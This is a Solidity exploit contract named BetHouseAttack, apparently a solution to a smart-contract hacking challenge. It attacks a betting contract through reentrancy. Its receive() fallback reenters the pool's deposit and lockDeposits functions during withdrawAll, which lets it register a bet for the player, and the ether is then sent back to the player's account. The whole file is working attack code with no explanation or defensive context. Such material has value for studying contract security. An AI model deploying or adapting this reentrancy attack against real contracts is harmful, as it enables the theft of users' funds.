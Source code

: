 `BetHouseAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBetHouse {
    function makeBet(address bettor_) external;
    function pool() external view returns (address);
    function isBettor(address bettor_) external view returns (bool);
}

interface IPool {
    function deposit(uint256 value_) external payable;
    function withdrawAll() external;
    function lockDeposits() external;
    function depositToken() external view returns (address);
}

interface IPoolToken {
    function approve(address spender_, uint256 amount_) external returns (bool);
    function balanceOf(address account_) external view returns (uint256);
    function transfer(address to_, uint256 amount_) external returns (bool);
}

contract BetHouseAttack {
    IBetHouse betHouse;
    IPool pool;
    IPoolToken poolToken;
    address player;

    constructor(address betHouseAddress) {
        betHouse = IBetHouse(betHouseAddress);
        pool = IPool(betHouse.pool());
        poolToken = IPoolToken(pool.depositToken());
        player = msg.sender;
    }

    function attack() external payable {
        if (msg.value != 0.001 ether) {
            revert("send 0.001 ether to this contract to exploit");
        }

        // check deposit token balance of this contract
        if (poolToken.balanceOf(address(this)) < 5) {
            revert("transfer 5 deposit tokens to this contract to exploit");
        }

        poolToken.approve(address(pool), type(uint256).max);
        pool.deposit{value: msg.value}(5);

        pool.withdrawAll();
        (bool success, ) = player.call{value: address(this).balance}("");
        require(success, "transfer eth back to EOA failed");
    }

    receive() external payable {
        pool.deposit(5);
        pool.lockDeposits();
        betHouse.makeBet(player);
    }
}
```
